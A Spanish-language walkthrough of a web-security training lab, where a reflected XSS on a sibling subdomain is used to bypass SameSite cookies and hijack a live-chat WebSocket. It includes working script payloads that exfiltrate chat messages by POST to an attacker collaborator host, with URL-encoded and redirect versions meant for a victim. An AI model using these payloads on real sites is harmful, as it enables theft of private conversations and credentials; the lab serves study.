Ya sea que esté probando el sitio web de otra persona o intentando proteger el suyo, es fundamental tener en cuenta que una solicitud puede ser del mismo sitio incluso si se emite en diferentes orígenes.

Asegúrese de auditar exhaustivamente toda la superficie de ataque disponible, incluyendo los dominios hermanos. En particular, las vulnerabilidades que permiten obtener una solicitud secundaria arbitraria, como XSS, pueden comprometer completamente las defensas del sitio, exponiendo todos los dominios del sitio a ataques entre sitios.

Además del CSRF clásico, no olvide que si el sitio web de destino admite WebSockets, esta funcionalidad podría ser vulnerable al secuestro de WebSockets entre sitios (CSWSH), que es básicamente un ataque CSRF dirigido a un protocolo de enlace de WebSocket. Para más detalles, consulte nuestro artículo sobre vulnerabilidades de WebSockets.



## LAB

Desplegando el laboratorio y hacendo una revisión del `SameSite` encontraremos que tiene el valor de `Strict`. en el sitio web encontraremos con un chat en vivo



haciendo la revisión, encontraremos que realiza una comunicación por websockets. En una las peticiones encontraremos una `READY` el cual al enviar al repeater 



Haciendo la requets observaremos que este trae toda la conversación del `Live chat` 



Ademas, enumerando los directorios del sitio web encontraremos que el trafico esta permitido por un subdominio: `https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net` 



```c
Access-Control-Allow-Origin: https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net
```

El dominio encontrado es un sitio web con un panel de login



Enumerando el sitio encontraremos que el valor de login es vulnerable a xss



Ahora vamos a construir un script para que con envie la 

```c
<script>
    var ws = new WebSocket('wss://0ac300960458407c807cf348005f007e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://mi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

¿Cómo funciona este script?

Establecimiento de conexión: El atacante crea un objeto WebSocket apuntando a la misma URL usada por la aplicación para mantener la conversación activa.

Handshake inicial: Una vez abierta la conexión, envía un mensaje "READY" para confirmar la conexión.

Interceptación de mensajes: Cada vez que el servidor envía datos a través del WebSocket, se activa el evento onmessage, que contiene la información en event.data.

Exfiltración: El contenido interceptado se envía mediante fetch() hacia un dominio controlado por el atacante (en este caso, un endpoint generado con OAST), utilizando POST y con mode: 'no-cors' para evitar bloqueos.




Enviamos la petición insertando nuestro código malicioso en el input del login



Vemos que funciona, y la request traen el historial del chat del `Live Chat`

Bypass SameSite

```c
<script>
    var ws = new WebSocket('wss://0ac300960458407c807cf348005f007e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://mi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Luego debemos construir nuestro payload malicioso el que será enviado a la victima. Para ello  debemos tener encuentra lo siguiente 

```c
<script>
    document.location = "https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net/login?username=PAYLOAD-JAVASCRIPT&password=test";
</script>
```

Nuestro payload en url encode es el siguiente:

```c
username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F0ac300960458407c807cf348005f007e.web-security-academy.net%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2Fmi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=test
```

Lo que nos quedara finalmente, este es el que se debería de enviar a la victima:

```c
<script>
    document.location = "https://cms-0ac300960458407c807cf348005f007e.web-security-academy.net/login?username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F0ac300960458407c807cf348005f007e.web-security-academy.net%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2Fmi8d1nk38gtif6j9zer7j6g3uu0lodc2.oastify.com%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=test";
</script>
```





```c
{"user":"Hal Pline","content":"No problem carlos, it&apos;s pjbye3qcdnra932nv913"}
```

